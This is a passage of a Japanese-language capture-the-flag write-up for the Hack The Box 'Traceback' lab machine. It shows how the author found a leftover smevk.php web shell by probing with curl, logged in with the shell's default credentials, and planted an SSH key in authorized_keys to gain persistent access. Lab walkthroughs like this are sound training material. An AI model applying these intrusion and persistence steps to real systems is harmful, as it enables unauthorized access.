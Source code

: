 ### foothold

`curl` で HTML を見てみると以下のような記述があります。

```html
<body>
        <center>
                <h1>This site has been owned</h1>
                <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
                <h3> - Xh4H - </h3>
                <!--Some of the best web shells that you might need ;)-->
        </center>
</body>
```

`best web shells` がバックドアとして残されているようです。  
「`best` なんて人によるだろ」と思い作問者の名前 (`xh4h`) + `web shell` でググると [https://twitter.com/riftwhitehat/status/1237311680276647936](https://twitter.com/riftwhitehat/status/1237311680276647936) が見つかります。  
このリポジトリをクローンしてきて雑に `for path in (ls | grep -v README); curl 10.10.10.181/$path; echo $path; end` とかすると `smevk.php` が見つかります。
`smevk.php` のデフォルトユーザ名、パスワードでログイン出来るのでこれで任意コード実行が出来るようになりました。

### user login

`smevk.php` で `user.txt` を入手したいですが、ログイン中のユーザではそれが無いです。

```
$ ls -al /home/$(whoami)
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

`smevk.php` のコンソールは使いにくいしユーザ名も分かったし、 `ssh` 接続を試みます。

ますクライアントマシンでキーペア生成します。

```
$ ssh-keygen -f ~/.ssh/traceback
```

`smevk.php` のコンソールからこんな感じで生成した `~/.ssh/traceback.pub` をアップロードします。

```
mkdir -p /home/webadmin/.ssh/ && echo "ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx" > /home/webadmin/.ssh/authorized_keys && cat /home/webadmin/.ssh/authorized_keys
```
